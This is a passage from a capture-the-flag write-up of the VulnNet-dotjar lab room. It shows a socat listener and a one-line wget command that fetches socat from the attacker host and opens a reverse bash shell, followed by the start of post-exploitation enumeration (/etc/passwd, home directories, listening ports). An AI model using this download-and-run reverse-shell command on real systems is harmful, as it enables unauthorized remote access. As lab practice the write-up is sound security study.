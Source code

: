 ```shell
┌[root♥siunam]-(~/ctf/thm/ctf/VulnNet-dotjar)-[2023.01.23|14:48:44(HKT)]
└> socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:4444
2023/01/23 14:50:29 socat[51373] N opening character device "/dev/pts/2" for reading and writing
2023/01/23 14:50:29 socat[51373] N listening on AF=2 0.0.0.0:4444
```

```shell
wget http://10.9.0.253/socat -O /tmp/socat;chmod +x /tmp/socat;/tmp/socat TCP:10.9.0.253:4444 EXEC:'/bin/bash',pty,stderr,setsid,sigint,sane
```

```shell
┌[root♥siunam]-(~/ctf/thm/ctf/VulnNet-dotjar)-[2023.01.23|14:48:44(HKT)]
└> socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:4444
2023/01/23 14:50:29 socat[51373] N opening character device "/dev/pts/2" for reading and writing
2023/01/23 14:50:29 socat[51373] N listening on AF=2 0.0.0.0:4444
                                                                 2023/01/23 14:50:39 socat[51373] N accepting connection from AF=2 10.10.203.203:57598 on AF=2 10.9.0.253:4444
                                                                   2023/01/23 14:50:39 socat[51373] N starting data transfer loop with FDs [5,5] and [7,7]
                                               web@vulnnet-dotjar:/$ 
web@vulnnet-dotjar:/$ export TERM=xterm-256color
web@vulnnet-dotjar:/$ stty rows 22 columns 107
web@vulnnet-dotjar:/$ ^C
web@vulnnet-dotjar:/$ 
```

## Privilege Escalation

### web to jdk-admin

Let's do some basic enumerations!

**System users:**
```shell
web@vulnnet-dotjar:/$ cat /etc/passwd | grep '/bin/bash'
root:x:0:0:root:/root:/bin/bash
jdk-admin:x:1000:1000:jdk-admin,,,:/home/jdk-admin:/bin/bash
web:x:1001:1001:,,,:/home/web:/bin/bash

web@vulnnet-dotjar:/$ ls -lah /home
total 16K
drwxr-xr-x  4 root      root      4.0K Jan 15  2021 .
drwxr-xr-x 23 root      root      4.0K Jan 15  2021 ..
drwxr-x--- 17 jdk-admin jdk-admin 4.0K Jan 31  2021 jdk-admin
drwxr-xr-x  4 web       web       4.0K Jan 16  2021 web
```

- Found 2 system user: `jdk-admin`, `web`

**Listening ports:**
```shell
web@vulnnet-dotjar:/$ ss -tunlp
NetidState  Recv-Q  Send-Q         Local Address:Port    Peer Address:Port                                 
udp  UNCONN 0       0                    0.0.0.0:5353         0.0.0.0:*                                    
udp  UNCONN 0       0                    0.0.0.0:49400        0.0.0.0:*                                    
udp  UNCONN 0       0              127.0.0.53%lo:53           0.0.0.0:*                                    
udp  UNCONN 0       0         10.10.203.203%eth0:68           0.0.0.0:*                                    
udp  UNCONN 0       0                       [::]:5353            [::]:*                                    
```